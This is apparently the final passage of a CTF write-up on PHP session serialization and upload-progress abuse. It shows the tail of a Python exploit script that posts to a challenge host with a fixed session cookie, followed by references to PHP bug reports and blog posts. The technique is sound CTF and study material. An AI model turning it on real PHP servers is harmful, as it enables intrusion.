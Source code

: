 ```python
        "Pragma": "no-cache",
        "Cache-Control": "no-cache",
        "Origin": "http://httpd.shop",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryUmsB8xWbmldnarAQ",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "ko,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,la;q=0.5,und;q=0.4,lb;q=0.3,vi;q=0.2",
        "Cookie": "PHPSESSID=munsiwoo"
    }

    req.post(url, headers=headers, data=contents)
    result = req.get(url, headers=headers).text

    print(result, flush=True)
```

![1568689763953](C:\Users\munsiwoo\AppData\Roaming\Typora\typora-user-images\1568689763953.png)



### Reference

[https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html "https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html")
[http://wonderkun.cc/index.html/?p=718](http://wonderkun.cc/index.html/?p=718 "http://wonderkun.cc/index.html/?p=718")
[https://blog.spoock.com/2016/10/16/php-serialize-problem/](https://blog.spoock.com/2016/10/16/php-serialize-problem/ "https://blog.spoock.com/2016/10/16/php-serialize-problem/")
[https://gist.github.com/chtg/f74965bfea764d9c9698](https://gist.github.com/chtg/f74965bfea764d9c9698 "https://gist.github.com/chtg/f74965bfea764d9c9698")
[https://www.zzfly.net/ctf-serialize/](https://www.zzfly.net/ctf-serialize/ "https://www.zzfly.net/ctf-serialize/")
[https://bugs.php.net/bug.php?id=71101](https://bugs.php.net/bug.php?id=71101 "https://bugs.php.net/bug.php?id=71101")
[https://bugs.php.net/bug.php?id=72681](https://bugs.php.net/bug.php?id=72681 "https://bugs.php.net/bug.php?id=72681")
[https://www.php.net/manual/en/session.upload-progress.php](https://www.php.net/manual/en/session.upload-progress.php "https://www.php.net/manual/en/session.upload-progress.php")
[https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler "https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler")